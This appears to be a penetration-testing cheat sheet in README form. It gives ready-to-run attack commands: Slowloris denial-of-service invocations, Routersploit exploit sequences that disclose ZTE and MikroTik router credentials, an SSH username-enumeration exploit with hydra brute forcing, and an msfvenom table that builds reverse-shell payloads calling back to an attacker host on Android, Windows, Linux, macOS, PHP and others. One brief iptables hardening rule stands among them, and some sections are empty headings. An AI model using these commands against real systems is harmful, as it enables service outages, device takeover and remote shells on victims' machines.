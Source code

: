 
# OSI Layer
## OSI Layer

| No | Layer | Example |
| --- | --- | --- |
| 7 | Application | SMTP |
| 6 | Presentation | HTTPS, SSL, TLS |
| 5 | Session | NetBIOS, PPTP |
| 4 | Transport | TCP, UDP |
| 3 | Network | Router, IP, ICMP |
| 2 | Data Link | Switch |
| 1 | Physical | Hub, NIC, Cable |

# Denial Of Service
## Slowloris (GET Exploit)
Perl Example
```
perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
``` 
## Slowloris Python (GET Exploit)
Source : https://github.com/gkbrk/slowloris
-----
Install
```
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```
Running
```
python3 slowloris.py [IP_TARGET] --port 80 --sleeptime 1000
```
## Anonymousdoser (POST Exploit)
Source : 
```
Website [URL/IP] : [IP_TARGET]
Time [Seconds] : 9999
```
## Harderning
IP Tables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```
Log Apache & Nginx
```
/var/log/apache2/access.log
/var/log/nginx/access.log
```
Live Running Log
```
tail -f ./access.log
```

# Routersploit
## Routersploit
Exploit For Router HGU, Mikrotik, IPCAM, etc.
---
Source : https://github.com/threat9/routersploit
---
Case Router ZTE_F609 and ZTE_F660
```
show exploits
search zte
use exploits/routers/zte/f609_config_disclosure
use exploits/routers/zte/f660_config_disclosure
show options
set target [IP_TARGET]
exploit
```
Case Router MikroTik 6.29-6.42 (Port 8291)
```
search mikrotik 6.29 - 6.42	=> 8291
use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
show options
set target [IP_TARGET]
exploit
```

# Scanning
## Scanning Port and Service
NMAP
```
nmap -sn [RANGE_IP]
nmap -A [IP_TARGET]
```
Netdiscovery
```
netdiscovery
```
Nbtscan
```
nbtscan [NETWORK_IP]
```

# Brute Force SSH (OpenSSH 2.3 < 7.7)
## Brute Force CVE-2018-15473
Source : https://www.exploit-db.com/exploits/45233
---
Running Exploit 
```
python3 45233.py --userList user.txt [IP_TARGET] --outputFile hasil.txt
hydra -L user.txt -P pass.txt [IP_TARGET] ssh
```

# Metasploit
## Payload Msvenom
Payload Reverse Shell
| Target | Example |
| --- | --- |
| Android | msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_ATTACKER] LPORT=4444 R > payload.apk |
| Windows Staged | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Windows Stageless | msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Linux | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf >reverse.elf |
| OSX | msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho |
| Python | msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py |
| PHP | msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4444 -f raw > shell.php; cat shell.php \| pbcopy && echo '<?php ' \| tr -d '\n' > shell.php && pbpaste >> shell.php |
| Bash | msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh |

## Meterpreter

# MITM (Man In The Middle)
## Ethercap
## SSLStrip


